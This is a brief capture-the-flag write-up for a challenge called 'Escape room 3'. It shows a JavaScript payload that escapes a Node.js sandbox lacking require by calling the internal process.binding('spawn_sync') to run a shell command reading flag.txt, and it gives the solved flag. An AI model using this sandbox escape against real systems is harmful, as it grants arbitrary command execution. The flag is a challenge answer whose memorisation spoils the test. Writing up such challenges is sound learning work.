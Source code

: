 # Escape room 3

## Write-up

Since we do not have access to require, we have to use the `process.binding` function which import internal NodeJS module that are not documented. In this case, the binding module `spawn_sync` and its function `spawn` is used.

The payload is:

```javascript
console.log(
  process
    .binding("spawn_sync")
    .spawn({
      shell: true,
      args: ["/bin/sh", "-c", "cat flag.txt"],
      file: "/bin/sh",
      stdio: [
        { type: "pipe", readable: true, writable: false },
        { type: "pipe", readable: false, writable: true },
        { type: "pipe", readable: false, writable: true },
      ],
    })
    .output[1].toString()
);
```

## Flag

`flag-1310d81cb545ee06af252f9191af473b`
